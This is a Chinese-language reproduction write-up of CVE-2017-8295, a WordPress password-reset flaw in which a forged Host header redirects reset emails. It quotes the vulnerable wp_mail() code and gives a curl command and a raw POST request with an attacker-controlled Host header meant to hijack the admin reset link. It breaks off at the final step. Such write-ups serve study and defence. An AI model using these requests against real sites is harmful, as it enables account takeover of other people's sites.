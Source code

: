 （CVE-2017-8295）WordPress 2.3-4.8.3 任意密码重置/HOST头注入漏洞
================================================================

一、漏洞简介
------------

在 WordPress 2.3-4.8.3
版本中找回密码功能未正确设置发送邮件的信息，在发送找回密码邮件的过程中直接使用
Host
地址作为邮件请求头的一部分，在一些情况下攻击者可利用该功能窃取找回密码邮件内容。

二、漏洞影响
------------

WordPress 2.3-4.8.3

三、复现过程
------------

### 漏洞分析

在 WordPress 中， wp\_mail()
函数用来发送邮件，在发送邮件的过程中如果没有设置 发件地址（From）
，则会自动使用 \'wordpress@\' + \$\_SERVER\[\'SERVER\_NAME\'\]
作为邮件的 发件地址。主流的 Web 服务器中的 SERVER\_NAME
变量来自于客户端请求中 HTTP\_HOST 头，这就意味着该发件地址是用户可控的。

wp\_mail() 函数的声明在文件 WordPress/wp-includes/pluggable.php 中：

    function wp_mail( $to, $subject, $message, $headers = '', $attachments = array() ) {
    ...//ignore
        if ( !isset( $from_email ) ) {
            // Get the site domain and get rid of www.
            $sitename = strtolower( $_SERVER['SERVER_NAME'] );
            if ( substr( $sitename, 0, 4 ) == 'www.' ) {
                $sitename = substr( $sitename, 4 );
            }
            $from_email = 'wordpress@' . $sitename;
        }
        /**
         * Filters the email address to send from.
         *
         * @since 2.2.0
         *
         * @param string $from_email Email address to send from.
         */
        $from_email = apply_filters( 'wp_mail_from', $from_email );
        /**
         * Filters the name to associate with the "from" email address.
         *
         * @since 2.3.0
         *
         * @param string $from_name Name associated with the "from" email address.
         */
        $from_name = apply_filters( 'wp_mail_from_name', $from_name );
        $phpmailer->setFrom( $from_email, $from_name );
    ...//ignore
    }

在某些情况下邮件服务器会直接将邮件的 发件地址 作为
退件地址（Return-Path），当邮件发送失败时邮件会被自动转发到
退件地址。因为 发件地址
可被篡改，因此找回密码邮件的内容可能会被发送到恶意的邮件服务器中。

### 漏洞复现

#### 安装 WordPress 程序

此处的管理员邮箱设置为不存在的邮箱地址
demo\@0-sec.org，用来模拟通过DNS攻击/DOS攻击使管理员的找回密码邮件发送失败

![](./resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId27.png)

#### 创建邮箱账户

演示中我们使用的是 wordpress\@0-sec.org

#### 通过在线终端，发起找回密码请求，并篡改 HTTP\_HOST 请求头

我们这里使用在线终端模拟攻击内网的 WordPress 网站。

在线终端中执行：

    curl -v 'http://0-sec.org/wp-login.php?action=lostpassword' -H 'Host: vulnspy.com' --data 'user_login=admin&redirect_to=&wp-submit=Get+New+Password'

![](./resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId30.png)

post数据包：

    POST /wp/wordpress/wp-login.php?action=lostpassword HTTP/1.1
    Host: injected-attackers-mxserver.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 56

    user_login=admin&redirect_to=&wp-submit=Get+New+Password

如果此时邮件发送失败，邮件会被自动退回到
wordpress\@0-sec.org。即原本要发送管理员邮箱 demo\@0-sec.org
的邮件会被发送到 wordpress\@0-sc.org

#### 使用 wordpress\@0-sec.org 接收找回密码邮件

如果利用成功 wordpress\@v0-sec.org 会接收到密码重置邮件。

![](./resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId32.png)

如果邮件内容没有显示找回密码链接，可以通过邮件源文件发现找回密码链接

![](./resource/(CVE-2017-8295)WordPress<=4.8.3任意密码重置_HOST头注入漏洞/media/rId33.png)

#### 使用找回密码链接修改密码

image
